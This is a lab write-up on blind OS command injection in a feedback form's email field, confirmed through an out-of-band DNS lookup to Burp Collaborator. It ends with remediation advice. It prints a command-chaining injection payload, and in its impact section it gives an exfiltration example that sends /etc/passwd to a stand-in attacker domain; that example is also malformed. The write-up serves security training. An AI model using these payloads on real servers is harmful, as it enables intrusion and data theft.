



# Lab: Blind OS Command Injection with Out-of-Band Interaction

## 📌 Summary
The application is vulnerable to Blind OS Command Injection in its feedback submission feature.

In this scenario, the server neither returns command output (In-band) nor is it easily detectable via time delays. Instead, we confirm the vulnerability by forcing the server to make an Out-of-Band (OAST) request to an external server (Burp Collaborator).

---

## 🧾 Description
The vulnerability is located in the email parameter of the feedback form. The backend takes this input and passes it into a shell command without proper sanitization.

Since we can't see the output, we use the `nslookup` command. This command tells the server to look up a domain name. By pointing it to a Burp Collaborator address, we can check the Collaborator logs to see if the server actually made the request. If we see a DNS/HTTP interaction, it confirms we have command execution.

---

## 🔁 Steps to Reproduce

1. Open the lab and go to the **Submit feedback** page.

2. Fill in the form and submit it while capturing the traffic in Burp Suite.

3. Send the `POST /feedback/submit` request to Burp Repeater.

4. Go to the Collaborator tab and click **"Copy to clipboard"** to get your unique payload address.

5. In Repeater, go to the `email` parameter and inject the following payload:

```http
email=sam835@gmail.com%26+nslookup+YOUR-COLLABORATOR-ID.oastify.com+%26
````

> **Note:** `%26` is the URL-encoded `&` operator used to chain the commands.

6. Send the request. You will see a `200 OK` response, but no output.

7. Go back to the Collaborator tab and click **"Poll now"**.

8. You will see DNS and HTTP interactions, proving the server executed your `nslookup` command.

---

## 📸 Proof of Concept (PoC)

### 1. Intercepting the Vulnerable Request



### 2. Injecting the Out-of-Band Payload



### 3. Lab Successfully Solved



---

## 💥 Impact

This is a High-Critical vulnerability because:

* **Out-of-Band Data Theft:**
  An attacker can exfiltrate sensitive data (like `/etc/passwd`) by sending it as a subdomain in the DNS request (e.g., `cat /etc/passwd.attacker.com`).

* **Blind Execution:**
  The attacker can execute any command on the server, even if they can't see the response on the screen.

* **Internal Network Scanning:**
  The attacker can use the compromised server to "ping" or scan other internal servers that are not exposed to the internet.

---

## 🛠️ Remediation

### Input Validation

Use strict regex to ensure the email field only contains a valid email format and no shell characters like `&`, `|`, or `;`.

### Avoid System Calls

Do not use functions that call the OS shell (like `system()`, `exec()`, or `passthru()`). Use built-in API libraries for the specific task.

### Principle of Least Privilege

Run the web application with a low-privileged user so that even if an injection occurs, the attacker cannot access sensitive system files.

